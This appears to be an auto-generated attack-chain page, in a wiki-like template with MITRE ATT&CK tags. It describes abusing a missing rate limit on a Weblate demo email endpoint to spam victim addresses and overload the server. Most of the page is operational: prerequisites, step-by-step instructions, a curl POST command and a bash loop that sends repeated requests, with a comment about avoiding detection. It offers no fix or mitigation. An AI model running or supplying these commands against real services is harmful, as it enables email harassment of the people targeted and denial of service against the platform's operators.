

# Abuse Missing Rate Limit on Weblate Email Endpoint for Spamming and DoS

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform running Weblate (Django-based)
- Accessible POST /accounts/email/ endpoint on demo subdomain
- No authentication required for the endpoint

### Initial Access Requirements

- Public network access to the target subdomain
- Valid CSRF token (obtainable via browser or prior GET request)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Exploit Missing Rate Limit
procedure: [[procedures/Send-Unlimited-Emails-via-Unprotected-Endpoint]]

**Objective**: Send unlimited spam emails to victim addresses by repeatedly posting to the unprotected endpoint, leading to harassment and potential server overload.

**Instructions**: First, obtain a CSRF token by visiting the target page or inspecting network requests. Then, use [[commands/curl-post-email-spam]] to craft and send POST requests with victim email addresses and minimal content. Repeat the request in a loop to bypass the lack of rate limiting.

```bash
curl -X POST 'https://demo.weblate.org/accounts/email/' \
  -H 'Referer: https://demo.weblate.org/accounts/email/' \
  -H 'X-CSRFToken: your_csrf_token_here' \
  -d 'email=victim@example.com&content=' \
  -c cookies.txt
```

To automate spamming, wrap in a loop:

```bash
for i in {1..100}; do
  curl -X POST 'https://demo.weblate.org/accounts/email/' \
    -H 'Referer: https://demo.weblate.org/accounts/email/' \
    -H 'X-CSRFToken: your_csrf_token_here' \
    -d "email=victim$i@example.com&content=" \
    -c cookies.txt
  sleep 0.1  # Optional delay to avoid immediate detection

done
```

**Expected Output**: HTTP 200/302 response indicating email sent, no errors on repeated requests.

**Success Indicators**:
- Multiple emails delivered to victim inboxes without throttling
- Server response times degrade with high volume, indicating resource exhaustion
- No rate limit errors or blocks observed

## Attack Chain Summary

### Key Achievements

1. Bypassed rate limiting to send unlimited spam emails
2. Demonstrated potential for user abuse via unwanted invitations
3. Induced denial-of-service through email server overload

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Network Denial of Service]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Impact]]

---
*Last updated: 2023-10-01T00:00:00Z*
